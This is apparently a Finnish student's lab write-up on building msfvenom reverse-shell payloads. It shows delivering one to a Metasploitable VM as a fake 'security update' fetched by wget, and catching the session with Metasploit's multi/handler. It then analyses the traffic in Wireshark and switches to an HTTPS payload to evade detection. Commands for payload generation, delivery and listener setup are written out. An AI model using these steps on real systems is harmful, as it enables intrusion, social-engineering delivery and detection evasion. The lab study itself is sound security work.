# Koita Simpukoita

## a) Venom. Tee msfvenom-työkalulla haittaohjelma, joka soittaa kotiin (reverse shell). Ota yhteys vastaan metasploitin multi/handler -työkalulla.

Aloitin tutustumalla msfvenomin käyttöön. CyberOffensiven video (CyberOffense, 17.4.2022) havainnollisti työkalun toimintaa hienosti. Tosin hänen esimerkissä hyökättiin windows järjestelmään. duck-secin reposta (duck-sec, 20.2.2024) löysin kätevän cheatsheetin eri payloadeista.

Loin payloadin msfvenomilla.
```
msfvenom -p linux/x86/shell/reverse_tcp LHOST=192.168.56.101 LPORT=8080 -f elf > very_important_security_update.elf
```
- `-p` Määrittää että käytetään payloadia
- `linux/x86/shell/reverse_tcp` Linuxi x86 arkkitehtuurin reverse TCP shell scripti.
- `LHOST=192.168.56.101` Kuuntelevan koneen ip osoite
- `LPORT=8080` Kuuntelevan koneen kohdeportti
- `-f elf` Määritellään, että binääri luodaan elf-tiedostoon (Executable and Linkable Format). Tämä on standardi binääriformaatti *NIX järjestelmissä (wikipedia).
- `very_important_security_update.elf` Sosiaalisen manipuloinnin mestariteos. Tällä tiedostonimellä saadaan kohdekoneen käyttäjä klikkaamaan linkistä 100% varmuudella.



Jotta voisin saada tämän payloadin kohdekoneelle, päätin käyttää samaa tekniikkaa mitä esimerkkivideossa (CyberOffense, 17.4.2022) käytettiin.

Ensin loin uuden kansion johon siirsin binäärin.
```
mkdir security_updates
mv very_important_security_update.elf security_updates
```


Laitoin tämän kansion pyörimään http -serverillä.

```
python3 -m http.server
```
- `-m http.server` Määritellään moduuli, jonka python3 ajaa. Tässä tapauksessa http.server.



Tämä pitää jättää terminaaliin pyörimään, jotta siihen voi ottaa yhteyden kohdekoneelta. Avasin siis uuden terminaalin ja siellä avasin palomuurista http -serverin portin sekä hyökkäyksessä käytettävää kuuntelevaa porttia.

```
sudo ufw allow 8080/tcp
sudo ufw allow 8000/tcp
```


Tässä kohtaa avasin vielä listenerin metasploitin avulla.

```
sudo msfconsole
search exploit/multi/handler
use 4
set LHOST 192.168.56.101
set LPORT 8080
run
```



Sitten siirryin hölmön toimistorotan rooliin. IT-tuelta oli tullut sähköpostia, että koneeseeni on saatettu murtautua. Pitäisi äkkiä käydä antamassa seuraavat komennot terminaaliin, jotta tunkeutuminen saadaan estettyä.

```
wget 192.168.56.101:8000/very_important_security_update.elf
chmod u+x very_important_security_update.elf
./very_important_security_update.elf
```

Kaikki sujui ihan nätisti, kunnes haittaohjelma ajettiin.

Tuli ilmoitus, että haittaohjelma on ladattu onnistuneesti.


Harri Hölmöläinen toisti antamani komennot.



Kun haittaohjelma ajettiin, tuli segmentation fault.



Metasploitin päässä näin, että yhteyttä oltiin otettu oikeasta osoitteesta, mutta yhteys oli katkennut välittömästi.



Selvittelin asiaa googlettamalla ja tekoäyn avulla, mutta en löytänyt siihen oikein mitään järkevää ratkaisua. Kohdekoneen arkkitehtuuri oli asetettu oikein (x86 = 32 bittinen).



Ajattelin, että ongelma saattaa olla payloadissa itsessään. Käytin staged payloadia, ja mietin olisiko pitänyt käyttää stageless payloadia, mutta ainakin tämän artikkelin (Sahu, V 21.1.2024) mukaan juurikin staged payloadin käyttöön tarvitaan metasploitin multi/handler -työkalua.

Päätin kokeilla vielä meterpreter/reverse_tcp -payloadia.

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.56.101 LPORT=8080 -f elf > linux_x86_meterpreter/reverse.elf
```



Sitten kertasin kaikki muut aikaisemmat vaiheet, mutta myös tämä epäonnistui.



Nyt mietin, että voisiko ongelma olla käyttämäni portti? Tuskin, koska näimme kuitenkin, että osoitteesta 192.168.56.102 oli yritetty avata yhteyttä. Päätin kuitenkin varmuuden vuoksi tehdä kaksi uutta binääriä, mutta nämä molemmat käyttävät nyt porttia 4444. Toinen on stageless ja toinen staged.



Avasin portin 4444 ja suljin 8080. Aloitin kokeilemalla staged versiota, mutta jälleen kaatui segmentation vikaan.



Lopulta kun kokeilin stageless payloadia niin sain reverse shellin avattua. En tiedä miksi juuri tämä toimi, sillä kaikissa ohjeissa mitä näin, neuvottiin tekemään staged payloadilla.




## b) Snif venom! Tarkastele ja analysoi msfvenomin muodostamaa reverse shell -yhteyttä. Käytä snifferiä, kuten Wireshark. Mitä havaitset? Mistä ominaisuuksista yhteyden voi tunnistaa? Millä muutoksilla tunnistamista voi vaikeuttaa?

### Snif

Aloitin tekemällä tcpdumpin.
```
sudo tcpdump -i eth1 -w capture.pcap
```
- `-i eth1` Kuuntele interface eth1:tä.
- `-w capture.pcap` Älä tulosta paketteja reaaliajassa vaan tallenna (write) ne tiedostoon capture.pcap

Sitten avasin uuden yhteyden multi/handleriin. Annoin muutaman komennon ja lopetin tcpdumpin.



Avasin tcpdumpin kirjoittaman tiedoston wiresharkilla.

```
wireshark capture.pcap
```

Kolmesta ensimmäisestä rivistä nähdään, että metasploitable on aloittanut kolmiosaisen kättelyn. Tämä on ensimmäinen asia johon kannattaa kiinnittää huomio jos kyseessä on palvelin johon on murtauduttu. Yleensä palvelin ei ole se joka tekee aloitteita.



Wiresharkissa on hyödyllinen ominaisuus Follow TCP stream. Tämän saa käyttöön klikkaamalla hiiren vasemmalla ensimmäisestä paketista, ja valitsee follow -> TCP stream. Koska TCP -liikenne ei ole salattua, näemme liikenteen ja annetut komennot plaintextinä.



Täällä näemme, että kali on lähettänyt echo stringin metasploitablelle (tämä oli ensimmäinen lähetetty paketti kättelyn jälkeen no. 11). Tämän jälkeen metasploitable on vastannut samalla stringillä. En löytänyt tähän mitään yksiselitteistä selitystä, mutta ChatGPT epäili että kyseessä on mekanismi, jolla metasploit tarkistaa että yhteys toimii.

Luulin, että shell oli taustalla, joten yritin avata sen. Väärä komento lähetettiin metasploitablelle, josta tuli vastaus että komentoa ei löydy.

Tämän jälkeen näkyy antamani whoami ja ip a -komennot sekä niiden vastaukset. Tämä on luonnollisesti iso punainen lippu. Jos kaapatuista paketeista näkyy, että joku kyselee TCP-yhteyden yli käyttäjätietojen perään tai yrittää selvitellä käytössä olevia interfaceja, kannattaa pikkuhiljaa huolestua.

### Salaus

Helpoin tapa vaikeuttaa tunnistamista on todennäköisesti yhteyden salaaminen. Ja tämä onnistuu varmaan helpoiten käyttämällä https-protokollaa.

msfvenomista löytyy yksi x86 arkkitehtuurin https payload.



Loin uuden payloadin käyttämällä tätä. Lportiksi laitoin 443.



Avasin palomuuriin portin 443 ja suljin 4444.
```
sudo ufw allow 443/tcp
sudo ufw deny 4444/tcp
```

Sitten siirsin tiedoston kohdekoneelle samaa tekniikkaa käyttäen kuin aikaisemmin ja annoin execute oikeudet.



Sitten kokeillaan toimiiko tämä suoraan multi/handlerin kanssa. Asetin kuuntelevaksi portiksi taas 443, laitoin tcpdumpin päälle ja käynnistin exploitin kohdekoneelta.

Tämä ei onnistunut. Näin liikennettä wiresharkissa ja metasploitable yritti selvästi avata yhteyttä, mutta shell-sessio ei avautunut.

Tässä kohtaa huomasin että payloadin tyyppiä voi vaihtaa multi/handlerissa, joten vaihdoin sen tuohon samaan, jonka olin valinnut msfvenomissa.



Sitten kokeilin ajaa haittaohjelmaa uudestaan.

Nyt sain meterpreter session auki. Ehkä payload optionsin vaihtaminen olisi ollut ratkaisu edellisen tehtävän haasteisiin, harmi etten ollut silloin vielä huomannut sitä.



Nyt huomaamme, että tcpdumpin sisältö ei sisällä enää pelkkiä tcp-paketteja, vaan mukana on myös TLS-protokollaa. Siellä on mm. tarkistettu sertifikaatteja ja vaihdeltu kryptausavaimia.



Lisäksi jos valitsemme taas follow tcp stream, niin näemme, että aikaisemmin selkokielisenä näkyneet syötteet ovat nyt kryptattu.

